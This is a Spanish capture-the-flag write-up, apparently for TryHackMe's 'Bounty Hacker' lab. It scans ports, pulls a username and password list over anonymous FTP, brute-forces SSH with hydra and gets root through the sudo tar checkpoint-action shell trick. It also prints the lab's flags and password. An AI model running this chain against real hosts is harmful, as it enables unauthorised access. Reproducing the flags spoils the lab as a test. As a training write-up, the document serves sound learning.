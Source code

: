 # Bounty Hacker

## Escaneo de puertos

Realizamos un mapeo de puertos para ver que servicios están disponibles y son vulnerables mediante el uso de`nmap`.

```
sudo nmap -sV -T4 -p- 10.10.85.142
```

Tenemos tres puertos abiertos, el 21 (FTP), el 22 (SSH) y el 80 (HTTP).

![](Hacking_Etico/TryHackMe_WriteUps/Bounty_Hacker/images/image.png)

## Acceso por FTP

Accedemos de forma anónima al servidor FTP. Desactivamos el modo pasivo, de esta forma es el servidor el que inicia la conexión.

![](Hacking_Etico/TryHackMe_WriteUps/Bounty_Hacker/images/image-1.png)

Encontramos dos archivos y los descargamos con el comando`get`.

![](Hacking_Etico/TryHackMe_WriteUps/Bounty_Hacker/images/image-2.png)

En el archivo`task.txt`encontramos a un usuario llamado`lin`.

![](Hacking_Etico/TryHackMe_WriteUps/Bounty_Hacker/images/image-3.png)

Y en el de`locks.txt`varias contraseñas que podrían ser la de usuario.

![](Hacking_Etico/TryHackMe_WriteUps/Bounty_Hacker/images/image-4.png)

## Ataque de fuerza bruta con Hydra

Usando como diccionario el archivo`locks.txt`, ejecutamos un ataque de fuerza bruta online sobre el servicio SSH con la herramienta`hydra`.

```
hydra -l lin -P locks.txt ssh://10.10.85.142 
```

La contraseña de`lin`es `RedDr4gonSynd1cat3`.
![](Hacking_Etico/TryHackMe_WriteUps/Bounty_Hacker/images/image-5.png)

## Acceso por SSH

Mediante los credenciales obtenidos, entramos por el servicio SSH.

```
ssh lin@10.10.85.142  
```

![](Hacking_Etico/TryHackMe_WriteUps/Bounty_Hacker/images/image-6.png)

Obtenemos la flag del`user.txt`.

![](Hacking_Etico/TryHackMe_WriteUps/Bounty_Hacker/images/image-7.png)

```
THM{CR1M3_SyNd1C4T3}
```

## Escalada de privilegios

Comprobamos los permisos de sudo que tiene el usuario para ver si hay algún binario explotable para obtener privilegios de root.

```
sudo -l
```

![](Hacking_Etico/TryHackMe_WriteUps/Bounty_Hacker/images/image-8.png)

El binario`/bin/tar`puede explotarse según [GTFOBins](https://gtfobins.github.io/gtfobins/tar/).

![](Hacking_Etico/TryHackMe_WriteUps/Bounty_Hacker/images/image-9.png)

Ejecutamos el comando directamente y somos root.

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![](Hacking_Etico/TryHackMe_WriteUps/Bounty_Hacker/images/image-10.png)

Nos ubicamos en la carpeta de root y obtenemos la flag final.

![](Hacking_Etico/TryHackMe_WriteUps/Bounty_Hacker/images/image-11.png)

```
THM{80UN7Y_h4cK3r}
```






